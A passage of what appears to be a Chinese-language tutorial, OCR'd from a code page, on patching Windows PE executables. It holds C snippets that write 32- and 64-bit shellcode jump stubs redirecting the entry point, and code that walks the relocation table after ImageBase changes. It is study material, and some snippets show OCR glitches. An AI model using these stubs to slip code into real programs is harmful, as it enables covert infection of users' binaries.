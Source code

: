    ```c
   //add eax,0x00000000;//
   //jmp eax;FFE0
   unsigned char cmd_2[13] = "\x2D\x00\x00\x00\x00\x05\x00\x00\x00\x00\xFF\xE0";
   memcpy(cmd_2 + 1, &NewAddressOfEntryPoint, 4);
   memcpy(cmd_2 + 6, &AddressOfEntryPoint, 4);
   memcpy(shell, cmd_2, 12);c
   ```

   64位程序：

   ```cc
   // shellcode后续的JMP内容 
   // \xE8\x00\x00\x00\x00 \x58 \x48\x83\xE8\x5A\x48\x2D\x44\x33\x22\x11\x48\x05\x88\x77\x66\x55 \xFF\xE0
   
   // CALL 	0x00000000; 
   // POP 	rax;
   memcpy(shell, "\xE8\x00\x00\x00\x00\x58", 6);
   shell = shell + 6;
   // SUB  	rax, 0x5A;
   unsigned char cmd_1[] = "\x48\x83\xE8\x5A";//85+5=90  0x5a
   memcpy(shell, cmd_1, 4);
   shell = shell + 4;
   // SUB 	rax, 0x11223344;
   // ADD 	rax, 0x55667788;
   // JMP 	rax;
   unsigned char cmd_2[15] = "\x48\x2D\x44\x33\x22\x11\x48\x05\x88\x77\x66\x55\xFF\xE0";
   memcpy(cmd_2 + 2, &NewAddressOfEntryPoint, 4);
   memcpy(cmd_2 + 8, &addressOfEntryPoint, 4);
   memcpy(shell, cmd_2, 14);
   ```


#### 修改ImageBase

修改ImageBase后，需要查看检查PE是否存在重定位表。若存在，则需要对PE文件中硬编码的地址进行重定位。

1. 存在重定位表，查找需要重定位的数据

   ```c++
   if (index_reloc_table != 0) {
   	auto *pRelocSection = section_header + index_reloc_table;
   	auto  RVAOffset = pRelocSection->VirtualAddress - pRelocSection->PointerToRawData;
   	auto RelocTable = data_directory[5];
   	PIMAGE_BASE_RELOCATION pBaseRelocation = (PIMAGE_BASE_RELOCATION)(content + (RelocTable.VirtualAddress - RVAOffset));
   }
   ```
   
2. 遍历重定位表中的各个重定位块

   ```c++
   while (size < RelocTable.Size) {
   	uint16_t *pTypeOffset = reinterpret_cast<uint16_t *>(pBaseRelocation) + 4;
       /*handle relocation block
        *......代码见第3点
        */
       size += pBaseRelocation->SizeOfBlock;
       pBaseRelocation = reinterpret_cast<PIMAGE_BASE_RELOCATION>(reinterpret_cast<uint8_t*>(pBaseRelocation) + 
                                                                  pBaseRelocation->SizeOfBlock);
   }
   ```
